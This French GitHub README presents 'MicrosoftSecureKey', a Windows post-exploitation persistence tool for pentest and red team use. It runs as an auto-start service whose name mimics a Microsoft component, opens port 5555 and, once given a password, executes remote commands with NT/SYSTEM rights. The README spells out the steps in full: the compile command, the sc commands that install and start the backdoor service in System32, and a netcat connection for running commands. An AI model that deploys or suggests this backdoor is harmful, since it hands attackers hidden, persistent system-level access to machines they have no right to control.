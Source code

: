 # MicrosoftSecureKey

🔍 MicrosoftSecureKey est un outil de post-exploitation (Pentest ou Read Team) qui permet le maintien d'accès sur un système Windows par le biais d'un mot de passe.
Il fonctionne en mode service Windows, ce qui permet d'ouvrir un port et d'exécuter des commandes à distance avec des droits NT/SYSTEM.

Comment ça marche :

 ✅ Compilation du programme 
 ✅ Installation du service sur le système distant
 ✅ Démarrage du service en mode AUTO
 ✅ Un simple netcat permet d'éxécuter des commandes.

 ⚠️ Une fois le mot de passe saisi, s'il y a un double saut de ligne cela veut dire que l'on est connecté, s'il y a un seul saut de ligne cela veut dire que la connexion a échoué.

Idéal pour les environnements contrôlés, les laboratoires de test, ou pour les administrateurs système qui veulent garder la main à distance sans passer par des solutions complexes.

Compilation :

`x86_64-w64-mingw32-gcc -o MicrosoftSecureKey.exe MicrosoftSecureKey.c -lws2_32`

Installation :

`sc create MicrosoftSecureKey binPath="C:\Windows\System32\MicrosoftSecureKey.exe" start=auto
sc start MicrosoftSecureKey`

Command :
`nc IP_SRV 5555
Tape Password
whoami`
